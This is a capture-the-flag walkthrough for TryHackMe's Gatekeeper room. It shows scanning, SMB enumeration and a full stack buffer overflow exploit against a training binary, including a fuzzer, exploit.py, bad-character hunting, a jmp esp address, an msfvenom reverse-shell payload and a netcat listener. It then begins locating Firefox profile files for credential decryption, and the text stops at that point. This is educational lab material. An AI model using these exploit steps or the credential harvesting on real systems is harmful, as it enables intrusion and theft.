# Gatekeeper Room

[Gatekeeper](https://tryhackme.com/room/gatekeeper) is a Boot2Root with buffer overflow exploitation and credential dump challenge.

## Port scan

Let's begin by performing a `nmap` scan.

```
$ nmap -Pn -A -sC -sV -vvv  -p- 10.10.56.33
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 14:50 -03
Nmap scan report for 10.10.56.33
Host is up (0.25s latency).

PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=gatekeeper
| Not valid before: 2023-04-30T17:00:09
|_Not valid after:  2023-10-30T17:00:09
31337/tcp open  Elite?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     Hello GET /nice%20ports%2C/Tri%6Eity.txt%2ebak HTTP/1.0
|     Hello
|   GenericLines: 
|     Hello 
|     Hello
|   GetRequest: 
|     Hello GET / HTTP/1.0
|     Hello
|   HTTPOptions: 
|     Hello OPTIONS / HTTP/1.0
|     Hello
|   Help: 
|     Hello HELP
|   Kerberos: 
|     Hello !!!
|   LDAPSearchReq: 
|     Hello 0
|     Hello
|   LPDString: 
|     Hello 
|     default!!!
|   RTSPRequest: 
|     Hello OPTIONS / RTSP/1.0
|     Hello
|   SIPOptions: 
|     Hello OPTIONS sip:nm SIP/2.0
|     Hello Via: SIP/2.0/TCP nm;branch=foo
|     Hello From: <sip:nm@nm>;tag=root
|     Hello To: <sip:nm2@nm2>
|     Hello Call-ID: 50000
|     Hello CSeq: 42 OPTIONS
|     Hello Max-Forwards: 70
|     Hello Content-Length: 0
|     Hello Contact: <sip:nm@nm>
|     Hello Accept: application/sdp
|     Hello
|   SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|_    Hello
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.93%I=7%D=5/1%Time=644FFC0D%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(
SF:SIPOptions,142,"Hello\x20OPTIONS\x20sip:nm\x20SIP/2\.0\r!!!\nHello\x20V
SF:ia:\x20SIP/2\.0/TCP\x20nm;branch=foo\r!!!\nHello\x20From:\x20<sip:nm@nm
SF:>;tag=root\r!!!\nHello\x20To:\x20<sip:nm2@nm2>\r!!!\nHello\x20Call-ID:\
SF:x2050000\r!!!\nHello\x20CSeq:\x2042\x20OPTIONS\r!!!\nHello\x20Max-Forwa
SF:rds:\x2070\r!!!\nHello\x20Content-Length:\x200\r!!!\nHello\x20Contact:\
SF:x20<sip:nm@nm>\r!!!\nHello\x20Accept:\x20application/sdp\r!!!\nHello\x2
SF:0\r!!!\n")%r(GenericLines,16,"Hello\x20\r!!!\nHello\x20\r!!!\n")%r(HTTP
SF:Options,28,"Hello\x20OPTIONS\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")
SF:%r(RTSPRequest,28,"Hello\x20OPTIONS\x20/\x20RTSP/1\.0\r!!!\nHello\x20\r
SF:!!!\n")%r(Help,F,"Hello\x20HELP\r!!!\n")%r(SSLSessionReq,C,"Hello\x20\x
SF:16\x03!!!\n")%r(TerminalServerCookie,B,"Hello\x20\x03!!!\n")%r(TLSSessi
SF:onReq,C,"Hello\x20\x16\x03!!!\n")%r(Kerberos,A,"Hello\x20!!!\n")%r(Four
SF:OhFourRequest,47,"Hello\x20GET\x20/nice%20ports%2C/Tri%6Eity\.txt%2ebak
SF:\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n")%r(LPDString,12,"Hello\x20\x01def
SF:ault!!!\n")%r(LDAPSearchReq,17,"Hello\x200\x84!!!\nHello\x20\x01!!!\n");
Service Info: Host: GATEKEEPER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 241.73 seconds

```

There are several ports open, including SMB, RDP, and port 31337. Note that Nmap shows that several requests are made to the port 31337, suggesting a running service.

## Enumeration

Let's use smbclient to determine any available shares.

```
smbclient -L 10.10.56.33                     
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.56.33 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
The “Users” share is available

```
$ smbclient //10.10.56.33/Users
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Thu May 14 22:57:08 2020
  ..                                 DR        0  Thu May 14 22:57:08 2020
  Default                           DHR        0  Tue Jul 14 04:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 01:54:24 2009
  Share                               D        0  Thu May 14 22:58:07 2020

                7863807 blocks of size 4096. 3876512 blocks available
smb: \> cd Share
smb: \Share\> dir
  .                                   D        0  Thu May 14 22:58:07 2020
  ..                                  D        0  Thu May 14 22:58:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 02:27:17 2020

                7863807 blocks of size 4096. 3876512 blocks available
```
The Share subdirectory contains a file named `gatekeeper.exe`. We are going to transfer it to our host machine for further inspection.
```
smb: \Share\> get gatekeeper.exe 
getting file \Share\gatekeeper.exe of size 13312 as gatekeeper.exe (11.6 KiloBytes/sec) (average 11.6 KiloBytes/sec)
```

Let's check what is running on the port 31337.
```
$ nc 10.10.56.33 31337
hi
Hello hi!!!
thm
Hello thm!!!
```
The program, simply retuns the same input string prefixed with "Hello " and posfixed with "!!!"

## Exploitation

Let's analyse the `gatekeeper.exe` locally. After downloading it, I discovered that's the program which runs on the port 31337. Let's open the program with Immunity Debugger with  Mona plugin.

If you do not have Mona installed, you can follow this guide: [Installing Mona](https://www.oreilly.com/library/view/python-penetration-testing/9781784399771/5ab35be1-6224-4757-af48-84f931a1a765.xhtml)

The following section is based on the [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep) Room on TryHackMe. I made the necessary adaptations for this context, and included some screenshots.

First, you have to run Immunity Debugger as Administrator. When Immunity loads, you will open the `gatekeeper.exe` file. 





The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run.



With the Mona script preinstalled, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

```
!mona config -set workingfolder c:\mona\%p
```


The next step is fuzzing. Create a file called `fuzzer.py` with the following contents:
```
#!/usr/bin/env python3

import socket, time

ip = "127.0.0.1"
port = 31337
timeout = 5
buffer = "A" * 50

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      print("Fuzzing with {} bytes".format(len(buffer)))
      s.send(bytes(buffer+"\r\n", "latin-1"))
      s.recv(1024)
  except Exception as e:
    print (e)
    print("Fuzzing crashed at {} bytes".format(len(buffer)))
    break
  buffer += 50 * "A"
  time.sleep(1)
```
Run the `fuzzer.py` script using python: 

```
python3 fuzzer.py
```

The fuzzer will send increasingly long strings comprised of `A`'s. Once the fuzzer crashes the server with one of the strings, the fuzzer exits with an error message. Take note of the largest number of bytes that were sent.

```
$ python3 fuzzer.py
Fuzzing with 50 bytes
Fuzzing with 100 bytes
Fuzzing with 150 bytes
timed out
Fuzzing crashed at 150 bytes
```
Create another file called `exploit.py` with the following contents:

```
import socket

ip = "127.0.0.1"
port = 31337
timeout = 5
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
prefix = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

try:
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(timeout)
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer+"\r\n", "latin-1"))
    print("Done!")
except:
  print("Could not connect.")
```
Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (since that length was 150, the `-l` value is 550):
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 550
```
The output is
``` 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2A
```
Copy the output and place it into the payload variable of the `exploit.py` script.

```
...
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2A"
...
```

In Immunity Debugger, press the X symbol to stop the execution of `gatekeeper.exe`.



Re-open `gatekeeper.exe` using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run `exploit.py` (which we will run multiple times with incremental modifications).

Run the modified `exploit.py` script.
```
python3 exploit.py
```
The script should crash `gatekeeper.exe` again. This time, in the command input box at the bottom of the screen of Immunity Debugger, run the following mona command, changing the distance to the same length as the pattern you created:
```
!mona findmsp -distance 550
```
Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:



Update your `exploit.py` script and set the offset variable to this value (in this case it was 146). Set the `payload` variable to an empty string again. Set the `retn` variable to `"BBBB"`.
```
...
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
prefix = ""
payload = ""
...
```
Restart `gatekeeper.exe` in Immunity and run the modified `exploit.py` script again. The EIP register should now be overwritten with the 4 B's (`42424242`).



Now let's find the bad chars.

Generate a bytearray using mona, and exclude the null byte (`\x00`) by default. Note the location of the `bytearray.bin` file that is generated (if the working folder was set during the Mona configuration, then the location should be `C:\mona\gatekeeper\bytearray.bin`).
```
!mona bytearray -b "\x00"
```
Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from `\x01` to `\xff`:
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Update your `exploit.py` script and set the `payload` variable to the string of bad chars the previous script generated.
```
...
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
...
```

Restart `gatekeeper.exe` in Immunity and run the modified `exploit.py` script again. Take note of the address to which the ESP register points  (in this case it was `00B419E4`)



Use it in the following mona command:
```
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 00B419E4
```
A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. This window shows the results of the comparison, indicating any characters that are different in memory to the contents of the generated `bytearray.bin` file.



Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Take note of any others. 

Generate a new bytearray in mona, specifying the `\x00` char along with the first of the new badchars. 

```
!mona bytearray -b "\x00\x0a"
```
Then update the payload variable in your `exploit.py` script and remove the new badchar as well. Here, `\x0a` was removed from the payload.

```
...
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
...
```
Restart `gatekeeper.exe` in Immunity and run the modified `exploit.py` script again. 

Again you will have to take note of the address to which the ESP register points. 



Do it each time you exclude a bad char and use the bellow command with the new address

```
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a 00BB19E4
```

Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.



Now, let's find a jump point!

With the `gatekeeper.exe` either running or in a crashed state, run the following mona command, making sure to update the `-cpb` option with all the badchars you identified (including `\x00`):
```
!mona jmp -r esp -cpb "\x00\x0a"
```
This command finds all `jmp esp` (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should be displayed in the "Log data" window (use the Window menu to switch to it if needed).



Choose an address and update your `exploit.py` script, setting the `retn` variable to the address, written backwards (since the system is little endian). For example if the address is `\x01\x02\x03\x04` in Immunity, write it as `\x04\x03\x02\x01` in your exploit.

I chose the address `0x080416BF` then I updated the `exploit.py` as follows:

```
...
retn = "/xBF/x16/x04/x08"
...
```
Now let's generate the payload to run in the remote machine and update its IP in the `exploit.py`.
```
...
ip = <TARGET_IP>
...
```

Run the following `msfvenom` command using your Kali VPN IP as the `LHOST` and updating the `-b` option with all the badchars you identified (including `\x00`):
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c
```

Copy the generated strings and integrate them into your `exploit.py` script payload variable using the following notation:
```
payload = "\xdd\xc1\xba\xfa\x28\xf7\x40\xd9\x74\x24\xf4\x5e\x33\xc9"
payload += "\xb1\x52\x31\x56\x17\x03\x56\x17\x83\x14\xd4\x15\xb5\x14"
...
payload += "\x35"
```

Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (`\x90`) bytes:
```
padding = "\x90" * 16
```
Exploit!

With the correct IP, offset, return address and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the `LPORT` you specified in the `msfvenom` command and the correct port (4444 if you didn't change it).

```
$ nc -lnvp 4444
```
Run the exploit one last time and your `netcat` listener should receive a reverse shell!

```
python3 exploit.py
```
```
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [<redacted>] from (UNKNOWN) [10.10.56.33] 49168
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>
```
## User flag

In the target system, the user flag is located in `C:\Users\natbat\Desktop\user.txt.txt`.
```
C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,815,729,152 bytes free

C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{<redacted>}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```
## Privilege escalation

After searching for a privilege escalation vector, I noticed there was a Firefox shortcut on the user’s Desktop. 

```
C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,878,176,768 bytes free
```               
We can use [Firefox Decrypt](https://github.com/unode/firefox_decrypt)  to get some credentials if we had the following files: 
- `login.json` and `key4.db` where passwords are stored
- `cert9.db` which contains all security certificate settings

These files are stored under `%APPDATA%\Mozilla\Firefox\Profiles\`

We move to that directory and found two directories: `ljfn812a.default-release` and `rajfzh3y.default`. 

```
C:\Users\natbat\Desktop>cd %APPDATA%\Mozilla\Firefox\Profiles
cd %APPDATA%\Mozilla\Firefox\Profiles

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>dir 
04/21/2020  05:00 PM    <DIR>          ..
05/14/2020  10:45 PM    <DIR>          ljfn812a.default-release
04/21/2020  05:00 PM    <DIR>          rajfzh3y.default
               0 File(s)              0 bytes
               4 Dir(s)  15,815,712,768 bytes free
```
Doing some research, I found the following:

> "Firefox 67 and later can use a dedicated profile for each of the Firefox update channels (release, beta, nightly, developer-edition,esr68) and will lock the profile, so it can only be used by Firefox in a specific installation folder. For Release versions this profile would be a `xxxxxxxx.default-release` profile, profiles used in older Firefox versions usually used a `xxxxxxxx.default` profile (a refresh adds a time stamp)."
> 
> _[Mozilla Support](https://support.mozilla.org/en-US/questions/1264072)_


With that in mind, we can access `ljfn812a.default-release` and see that the files we wanted are all available.

```
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>cd ljfn812a.default-release
cd ljfn812a.default-release

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

05/14/2020  10:45 PM    <DIR>          .
05/14/2020  10:45 PM    <DIR>          ..
05/14/2020  10:30 PM                24 addons.json
05/14/2020  10:23 PM             1,952 addonStartup.json.lz4
05/14/2020  10:45 PM                 0 AlternateServices.txt
05/14/2020  10:30 PM    <DIR>          bookmarkbackups
05/14/2020  10:24 PM               216 broadcast-listeners.json
04/22/2020  12:47 AM           229,376 cert9.db
04/21/2020  05:00 PM               220 compatibility.ini
04/21/2020  05:00 PM               939 containers.json
04/21/2020  05:00 PM           229,376 content-prefs.sqlite
05/14/2020  10:45 PM           524,288 cookies.sqlite
05/14/2020  10:24 PM    <DIR>          crashes
05/14/2020  10:45 PM    <DIR>          datareporting
04/21/2020  05:00 PM             1,111 extension-preferences.json
04/21/2020  05:00 PM    <DIR>          extensions
05/14/2020  10:34 PM            39,565 extensions.json
05/14/2020  10:45 PM         5,242,880 favicons.sqlite
05/14/2020  10:39 PM           196,608 formhistory.sqlite
